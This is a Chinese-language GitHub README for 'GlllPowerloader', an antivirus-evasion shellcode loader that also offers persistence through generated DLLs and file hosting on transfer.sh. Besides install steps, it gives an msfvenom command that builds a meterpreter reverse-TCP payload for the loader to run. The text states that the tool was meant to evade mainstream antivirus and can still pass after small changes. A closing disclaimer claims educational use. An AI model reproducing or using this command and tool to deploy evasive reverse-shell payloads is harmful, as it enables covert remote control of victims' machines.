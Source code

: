 # GlllPowerloader


- [1.前言](#1前言)

- [2.功能](#2功能)

- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  
  - [0x02.shellcode loader的使用](#0x02shellcode-loader的使用)
  
  - [0x03.Automation\_loader](#0x03automation_loader)
  
  - [0x04.文件格式转换](#0x04文件格式转换)
  
  - [0x05.自动化生成代理DLL](#0x05自动化生成代理dll)
  
  - [0x06.文件捆绑和上传](#0x06文件捆绑和上传)
  
    
  
- [4.更新](#4更新)

- [5.免责声明](#5免责声明)

- [6.结语](#6结语)

# 1.前言

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注

- 刚开始可以免杀主流杀软的，不过后面肯定会被乱杀，主要目的是学习恶意代码和自动化


# 2.功能



|       功能       |                描述                |
| :--------------: | :--------------------------------: |
|   1.免杀加载器   |  拥有十种以上的shellcode加载方式   |
|  2.文件格式转换  |    Windows中文件格式之间的转换     |
|    3.权限维持    |    动态生成Dll，入口点是DllMain    |
| 4.自动化文件托管 | 将文件托管到：https://transfer.sh/ |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)的编程环境：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

解压完以后，将bin目录添加至环境变 量即可

使用Git下载项目

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.shellcode loader的使用

大部分已经不能免杀了，不过稍微改一下基本上都能过，建议使用无阶段的shellcode（Stageless）

Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```

## 0x03.Automation_loader



# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15-19， 删除冗余的功能，优化代码（之前的版本涉及语言安装环境太多了，使用太麻烦，为了简便就留C/C++的加载器）

免杀加载器正在更新中。。。


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

在编写Powerloader时学习了很多前辈的项目，在此我非常感谢他们

关于C/C++的加载器 ，我参考了它的部分代码和框架格式，这非常有意义：https://github.com/icyguider/Shhhloader
